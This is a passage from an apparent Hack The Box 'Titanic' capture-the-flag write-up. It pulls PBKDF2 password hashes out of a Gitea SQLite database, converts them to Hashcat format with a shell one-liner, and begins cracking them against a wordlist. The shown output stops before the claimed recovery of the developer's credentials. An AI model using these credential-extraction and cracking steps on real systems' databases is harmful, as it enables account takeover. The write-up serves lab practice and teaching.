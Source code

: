 ## Cracking Password Hashes

Now we can open then database with a DB Browser and check out the user table. Here we can see the following pbkdf2 hashes.
![Gitea-Databas](/assets/images/htb-titanic-gitea-database.png)

Gitea uses PBKDF2 (Password-Based Key Derivation Function 2) with SHA256 to hash passwords. The hashes are stored in the database along with the salt value used for each password. However, these hashes are not directly usable by Hashcat.

To crack the passwords, we need to convert the hashes and salts into a specific format that Hashcat expects for PBKDF2-SHA256. The format looks like this:

```
`<name>:<hash_type>:<iterations>:<salt_base64>:<hash_base64>`
```

To convert the hashes from the Gitea database into this format manually would be tedious. Fortunately, [0xdf](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html#) shared a handy one-liner that automates this conversion:

```
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

Now, the hashes are in the correct format:
```
drew@windows:/mnt/c/Users/DrewQ$ cat gitea.hashes
administrator:sha256:50000:LRS....2z48aij8mw==:y.......gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4.....tNA==:5THTmJRhN7r........Y8iXyhEBrfLyO/F2+8wvxaCYZJj..+1Y=
```

We can crack the loaded hashes with the following command. Please ensue you use `--user` option. In the output you can see we found the users `developer` credentials.
```
$ hashcat -m 10900 gitea.hashes ~/rockyou.txt --force --user
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i9-10900 CPU @ 2.80GHz, 31672/63409 MB (8192 MB allocatable), 20MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP
```
